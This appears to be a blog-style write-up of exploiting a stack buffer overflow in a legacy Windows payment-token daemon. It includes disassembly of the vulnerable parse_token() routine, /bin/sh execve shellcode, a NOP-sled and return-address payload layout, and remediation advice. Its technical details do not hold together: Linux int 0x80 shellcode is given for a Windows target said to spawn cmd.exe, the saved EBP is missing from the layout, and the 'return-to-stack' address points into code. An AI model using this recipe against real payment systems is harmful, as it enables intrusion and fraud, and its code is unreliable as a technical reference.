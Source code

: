 ```yaml
---
title: "Swipe to Shell: Exploiting a Buffer Overflow in PaySafeTech Daemon"
description: "A quiet night, an old daemon, and a 512-byte opportunity—how I found a stack-based overflow in a legacy payment system."
date: '2023-03-17'
categories: ["Exploit Development", "Binary Exploitation"]
tags: ["Buffer Overflow", "Windows x86", "Reverse Engineering", "Stack Exploits"]
header:
  image: "/images/paysafetech-buffer.jpg"
  caption: "Legacy systems don’t forget — and neither do their bugs"
---
```



# Buffer Overflow in PaySafeTech Payment Daemon

## Prologue: The Ghost in the Machine

The smell of late-night coffee and burnt solder still hung in the air. It was one of those nights — quiet, focused, and laced with the promise of uncovering something... forgotten.

PaySafeTech. A name that sounded oddly futuristic for such an old binary.

I wasn’t even looking for anything serious. Just tinkering through a pile of dusty retail systems, hoping to find some artifact of digital negligence. That’s when I saw it: a user-mode daemon labeled `pstoken_svc.exe`, timestamped somewhere around 2012. No symbols, no protections, no clue where it had been used. But something about it screamed undiscovered territory. And if you’ve been in the game long enough, you know that’s the best kind of territory.

So I cracked my knuckles, fired up IDA Pro, and dove in.

## Initial Recon – The Binary in the Basement

The file was a 32-bit Windows executable. First instinct? Throw it at PE-bear, diec, and exiftool just to get a read on its soul.

### Findings
- Architecture: x86
- Stack Protections: none
- ASLR: none
- DEP: none
- Compilation Date: 2012
- Comments in strings: `// V1.3 - Retail Token Parser Daemon`
- Static base: `0x00400000`

My brain went: this is a daemon that parses payment tokens. High-trust component. If there’s a bug here, it’s got teeth.

## What Am I Looking For?

I'm hunting for:
- Unsafe memory copies
- Input parsing flaws
- Buffer management

Since it's a token parser, I bet it reads raw strings or binary blobs from some input pipe. These are prime spots for buffer mishandling.

I grepped for suspicious functions: strcpy, memcpy, movsb.

## Jackpot — Welcome to `parse_token()`

```asm
.text:00401520 parse_token proc near
.text:00401520     push    ebp
.text:00401521     mov     ebp, esp
.text:00401523     sub     esp, 200h       ; allocate 512 bytes on stack
.text:00401529     mov     eax, [ebp+8]    ; get input pointer
.text:0040152C     mov     ecx, [ebp+0Ch]  ; input length
.text:0040152F     lea     edi, [ebp-200h] ; destination: local buffer
.text:00401535     rep movsb              ; copy user data to local buffer
```

This was it. A raw `rep movsb` call with no bounds checking. No validation of ecx. This meant if the caller passed in more than 512 bytes, it would happily blast right through the stack frame.

I just sat there grinning. They trusted user input without restraint.

## Stack Frame Dissection

```
[ebp+0x8]   -> Input pointer
[ebp+0xC]   -> Input length
[ebp-0x200] -> 512-byte buffer
```

So if ecx > 0x200, the rep movsb overwrites:
- Saved EBP
- Return Address

In a binary with no stack canaries and no DEP, this was a golden exploit candidate.

## Crafting the Payload – Spawn Me a Shell

I went straight for the classic — spawn cmd.exe.

### Sample Linux-style Shellcode

```asm
global _start
_start:
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push eax
    push ebx
    mov ecx, esp
    mov al, 0x0b
    int 0x80
```

On Windows, I’d replace this with a WinExec-based version.

## Payload Layout Strategy

I needed to construct a payload that:
- Fits at least 512 bytes (NOP sled + shellcode)
- Overwrites return address to jump into the sled

### Payload:

```
[512 bytes = NOP sled + shellcode][RET -> 0x00401580]
```

That’s it. Old school. No fancy ROP chains, just return-to-stack.

## Testing in a Sandbox

Threw it in a WinXP VM and attached a debugger.

Injected payload via simulated input to parse_token().

Stack pointer dropped into my sled, hit the shellcode, cmd.exe popped like toast.

I sat back and smiled. That was almost too easy.

## Real-World Impact

This daemon is used in retail systems. It likely:
- Accepts tokenized payments over IPC or network
- Runs with elevated privileges
- Has access to hardware modules

Overflow here could:
- Escalate local privileges
- Tamper with payment data
- Lead to remote code execution

## What Should’ve Been Done

This bug wouldn’t exist if even one of the following had been used:
- Input length validation
- Use of memcpy_s or strncpy
- Stack canaries
- DEP and ASLR

## Final Thoughts

This was one of those bugs that reminds you old code still matters. Legacy components like these fly under the radar, never patched, never monitored. But they’re out there. And they’re vulnerable.

## Summary

- Vulnerability: Stack buffer overflow in `parse_token()`
- Platform: x86 Windows (No ASLR, DEP, or stack cookies)
- Impact: Arbitrary code execution
- Exploit: Overwrite RET to jump to shellcode on stack
- Fix: Add bounds check and use secure memory functions


